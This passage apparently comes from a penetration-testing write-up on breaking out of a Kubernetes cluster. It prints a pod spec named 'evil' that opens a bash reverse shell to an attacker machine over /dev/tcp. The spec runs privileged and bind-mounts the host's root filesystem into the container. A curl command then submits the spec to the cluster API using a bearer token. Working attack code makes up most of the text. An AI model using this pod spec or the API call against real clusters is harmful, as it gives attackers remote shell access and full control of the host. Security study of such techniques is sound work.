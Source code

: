 That should have generate a file with the following contents:

```json
{
  "apiVersion": "v1",
  "kind": "Pod",
  "metadata": {"name": "evil"},
  "spec": {
    "containers": [
      {
        "name": "evil",
        "image": "ubuntu:trusty",
        "command": [
          "bash",
          "-c",
          "bash -i >& /dev/tcp/<attack-machine-ip>/<port> 0>&1"
        ],
        "securityContext": {
          "privileged": true
        },
        "volumeMounts": [
          {
            "mountPath": "/mnt/host",
            "name": "hostvolume",
            "mountPropagation": "Bidirectional"
          }
        ]
      }
    ],
    "volumes": [
      {
        "name": "hostvolume",
        "hostPath": {
          "path": "/"
        }
      }
    ]
  }
}
```

When we apply that pod spec to the k8s API, it should create a pod that upon startup connects a bash reverse shell back to our netcat listener. This spec also tells k8s to create a bidirectional bind mount of the host systems `/` dir to `/mnt/host` within the container. Nifty!

Of course this stuff would only work if the cluster is configured to allow unsafe things such as bidirectional volume mounts, privileged security context, and network egress to non-whitelisted IPs.

Next we need a way to tell the k8s API to create the pod. There are a few ways we can do this.

Using curl. This can get pretty janky when you have too many non-tty reverse shells going on and such.

```
curl -k -H "Authorization: Bearer $t" \
  -H "Content-Type: application/json" \
  -d "$(cat pod.json)" -XPOST https://kubernetes/api/v1/namespaces/default/pods
```
